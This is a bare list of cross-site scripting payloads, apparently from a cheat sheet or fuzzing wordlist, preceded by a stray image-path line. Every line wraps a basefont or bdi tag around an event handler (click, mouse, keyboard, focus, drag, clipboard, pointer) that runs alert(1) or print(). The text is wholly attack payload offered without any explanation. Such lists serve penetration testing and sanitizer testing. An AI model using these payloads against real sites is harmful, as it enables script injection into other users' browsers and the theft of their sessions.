 &lt;basefont onclick="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont oncontextmenu="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;basefont oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;basefont ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/basefont&gt;
&lt;basefont onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/basefont&gt;&lt;input autofocus&gt;
&lt;basefont onkeydown="alert(1)" contenteditable&gt;test&lt;/basefont&gt;
&lt;basefont onkeypress="alert(1)" contenteditable&gt;test&lt;/basefont&gt;
&lt;basefont onkeyup="alert(1)" contenteditable&gt;test&lt;/basefont&gt;
&lt;basefont onmousedown="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont onmouseenter="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont onmouseleave="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont onmousemove="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont onmouseout="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont onmouseover="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont onmouseup="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont onmousewheel=alert(1)&gt;requires scrolling
&lt;basefont onpaste="alert(1)" contenteditable&gt;test&lt;/basefont&gt;
&lt;basefont onpointerdown=alert(1)&gt;XSS&lt;/basefont&gt;
&lt;basefont onpointerenter=alert(1)&gt;XSS&lt;/basefont&gt;
&lt;basefont onpointerleave=alert(1)&gt;XSS&lt;/basefont&gt;
&lt;basefont onpointermove=alert(1)&gt;XSS&lt;/basefont&gt;
&lt;basefont onpointerout=alert(1)&gt;XSS&lt;/basefont&gt;
&lt;basefont onpointerover=alert(1)&gt;XSS&lt;/basefont&gt;
&lt;basefont onpointerrawupdate=alert(1)&gt;XSS&lt;/basefont&gt;
&lt;basefont onpointerup=alert(1)&gt;XSS&lt;/basefont&gt;
&lt;bdi draggable="true" ondrag="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi draggable="true" ondragend="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi draggable="true" ondragenter="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi draggable="true" ondragleave="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi draggable="true" ondragstart="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi id=x tabindex=1 onactivate=alert(1)&gt;&lt;/bdi&gt;
&lt;bdi id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/bdi&gt;
&lt;bdi id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/bdi&gt;&lt;input autofocus&gt;
&lt;bdi id=x tabindex=1 ondeactivate=print()&gt;&lt;/bdi&gt;&lt;input id=y autofocus&gt;
&lt;bdi id=x tabindex=1 onfocus=alert(1)&gt;&lt;/bdi&gt;
&lt;bdi id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/bdi&gt;
&lt;bdi onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;bdi onbeforecopy="alert(1)" contenteditable&gt;test&lt;/bdi&gt;
&lt;bdi onbeforecut="alert(1)" contenteditable&gt;test&lt;/bdi&gt;
&lt;bdi onbeforepaste="alert(1)" contenteditable&gt;test&lt;/bdi&gt;
&lt;bdi onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;bdi onblur=alert(1) tabindex=1 id=x&gt;&lt;/bdi&gt;&lt;input autofocus&gt;
&lt;bdi onclick="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi oncontextmenu="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;bdi oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;bdi ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/bdi&gt;
&lt;bdi onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/bdi&gt;&lt;input autofocus&gt;
&lt;bdi onkeydown="alert(1)" contenteditable&gt;test&lt;/bdi&gt;
&lt;bdi onkeypress="alert(1)" contenteditable&gt;test&lt;/bdi&gt;
&lt;bdi onkeyup="alert(1)" contenteditable&gt;test&lt;/bdi&gt;
&lt;bdi onmousedown="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi onmouseenter="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi onmouseleave="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi onmousemove="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi onmouseout="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi onmouseover="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi onmouseup="alert(1)"&gt;test&lt;/bdi&gt;
&lt;bdi onmousewheel=alert(1)&gt;requires scrolling
&lt;bdi onpaste="alert(1)" contenteditable&gt;test&lt;/bdi&gt;
&lt;bdi onpointerdown=alert(1)&gt;XSS&lt;/bdi&gt;
&lt;bdi onpointerenter=alert(1)&gt;XSS&lt;/bdi&gt;
&lt;bdi onpointerleave=alert(1)&gt;XSS&lt;/bdi&gt;